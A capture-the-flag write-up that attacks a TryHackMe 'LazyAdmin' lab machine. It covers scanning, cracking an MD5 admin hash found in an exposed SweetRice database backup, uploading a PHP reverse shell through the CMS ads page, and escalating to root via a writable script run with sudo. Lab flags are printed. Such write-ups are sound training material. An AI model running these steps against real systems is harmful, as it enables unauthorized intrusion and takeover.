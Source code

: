 ### IP
`10.10.115.143`


# Enumeration
`nmap -sC -sV 10.10.115.143 -o LazyAdmin.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-14 02:57 EST
Nmap scan report for 10.10.115.143
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.23 seconds
```
* Going to the website, it looks like the default apache page
	* Let's try to find out more about the site
### Gobuster
`gobuster dir -u http://10.10.115.143/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o gobusterScan.txt`
```
/content (Status: 301)
/server-status (Status: 403)
```
* `/server-status` is a 403, so I'm not interested in that. `content` looks like a redirect though... should be interesting
* let's do a second one for good measure:
`gobuster dir -u http://10.10.115.143/ -w /usr/share/wordlists/dirb/common.txt -t 50 -o gobusterScan2.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.115.143/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/14 03:45:44 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/content (Status: 301)
/.hta (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/11/14 03:45:59 Finished
===============================================================
```
* Nope. Just more 403s and stuff we've had before



* Okay... since `/content` is really the only useful directory here... let's run a scan on that

`gobuster dir -u http://10.10.115.143/content/ -w /usr/share/wordlists/dirb/common.txt -t 50 -o gobusterScan3.txt`
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.115.143/content/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/14 03:58:00 Starting gobuster
===============================================================
/_themes (Status: 301)
/.htpasswd (Status: 403)
/as (Status: 301)
/attachment (Status: 301)
/.hta (Status: 403)
/.htaccess (Status: 403)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
===============================================================
2020/11/14 03:58:15 Finished
===============================================================
```
* `/as` looks like a login page!
* `/js` and `/inc` also might have some interesting stuff
	* `/inc/latest.txt` confirms that this is sweetrice version `1.5.1`!
	* `/inc/ads` should be taken note of. It become useful later
	* `/inc/mysql_backup/` has a file that looks interesting. When we download it, theres a username and hashed password
### Nikto
`nikto -host 10.10.115.143`

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.115.143
+ Target Hostname:    10.10.115.143
+ Target Port:        80
+ Start Time:         2020-11-14 03:02:55 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2c39, size: 59878d86c765e, mtime: gzip
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7889 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-11-14 03:27:19 (GMT-5) (1464 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* smh 25 minutes of nikto and nothing useful

# Exploitation

### sql database
* there was an sql file stored at `/as/inc/my_sql_backup/`
* looking through it, there's a line with the following content:
```php
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',

```
* here, we can see that the admin is `manager` and the password is `42f749ade7f9e195bf475f37a44cafcb`
	* this doesn't look like the actual password though. It's more likely a hash
	* the hash is in hex and 32 characters long... its probably MD5

### password cracking
* putting the hash into a file called `passwordHash`, we can crack the password
* using john, we can execute the command `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt passwordHash`
	* This outputs the password: `Password123`

### remote code execution
* log in with the username `manager` and the password `Password123`
* i noticed that there's a tab on the right of the admin page for `ads`
	* when we click on that, it allows for us to put in code that will execute
	* i took [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) code from pentestmonkey and changed the ip to my own and the host to 4444
	* then, I copied the code into the website, named it "Payload" and clicked "Done". The code shows that it has been uploaded
	* now, create a reverse listener on your own machine with `nc -lvnp 4444` (4444 is the port I specified in the payload)
	* once all that has been set up, we can go to the `/as/inc` directory and we can see a file called "Payload.php"
		* clicking on that brings up a shell in our netcat session

### file discovery
* now that we have access to a shell on the system, we can look around for the files
* `/home/itguy` has a file called `user.txt`
	* `cat user.txt` then gives us the user flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`



### privesc
* we can assume the `root.txt` file is in the root directory, but how do we get it?
* running `sudo -l` gives us the following output:
```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
* here, we can see that `/home/itguy/backup.pl` can run sudo without a password
* unfortunately we can't edit that script, but when we cat it out, we can see that `itguy` made the mistake of running a script inside his sudo script:

```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

* let's edit the script running with `echo "cat /root/root.txt" > /etc/copy.sh`
* now, let's run the original script with `sudo perl backup.pl`
* unfortunately, doing that on the machine occasionally got me the following message:
```
sudo: no tty present and no askpass program specified
```
* however, we can make sudo non-interactive by adding a `-n` tag to the command to make it `sudo -n perl backup.sh`

	* that outputs the root flag: `THM{6637f41d0177b6f37cb20d775124699f}`
